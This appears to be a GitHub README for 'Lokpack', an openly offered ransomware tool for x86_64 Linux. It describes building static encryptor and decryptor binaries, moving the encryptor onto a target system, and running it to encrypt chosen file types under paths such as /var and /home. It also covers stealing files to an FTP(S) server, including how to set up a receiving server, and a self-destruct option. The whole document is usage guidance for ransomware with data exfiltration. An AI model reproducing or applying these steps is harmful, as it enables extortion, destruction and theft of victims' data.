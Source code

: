 # Lokpack | Ransomware tooling for x84_64 Linux
Lokpack is a free (as in freedom) and open source ransomware 
tool targeting x86_64 Linux systems, written in C.

![showcase](https://github.com/ngn13/lokpack/assets/78868991/d1d8e490-b7d3-4f21-aeca-368eb0a0a0d8)


## Features
- Build static encryption and decrypiton tools
- Steal files using a FTP(S) server
- Specify custom target paths
- Uncrackable AES-256 encryption
- Multi-threaded (a.k.a. fast)

## Build
Required libraries/tools:
- A (x86_64) Linux system
- gcc and other build tools 
- curl (and headers)
- openssl (and headers)

To generate static builds, you will need static libraries of curl and openssl, 
**if your distro does not package these**, you can build them yourself or use the automated
build scripts:
```bash
./scripts/openssl.sh
./scripts/curl.sh
```
**Note that automated script for curl does not support SSL connections**.

After building the static libraries, use the build script to create build with a random key:
```bash
./scripts/build.sh
```
This should create the `encryptor` and the `decryptor` binares at `dist/`.

## Options
After transfering `encryptor` to the target system, you can specify custom options:
```bash
$ ./encryptor --help
[*] Listing available options:
    --threads  => Thread count for the thread pool
    --paths    => Paths to look for files
    --exts     => Valid extensions for files
    --ftp-url  => Address for the FTP(S) server
    --ftp-user => FTP(S) username
    --ftp-pwd  => FTP(S) password
    --no-ftp   => Disable stealing files with FTP(S)
    --destruct => Self destruct the program
    --debug    => Enable debug output
```

For example to encrypt `.sql` and `.db` files located at `/var` and `/home` without FTP using 100 threads:
```bash
./encryptor --threads=100 --paths=/var,/home --exts=sql,db --no-ftp
```

### Setting up FTP(S)
For an actual FTP(S) setup you should install a FTP daemon such as `vsftpd` or `bftpd`. But for testing you can 
use `pyftpdlib`:
```bash
# username and password are 'anonymous' 
# which is default for the encryptor
python3 -m pyftpdlib -w
# -w for write access
```

---
<img src="https://files.ngn.tf/gpl3.png" width="200px">
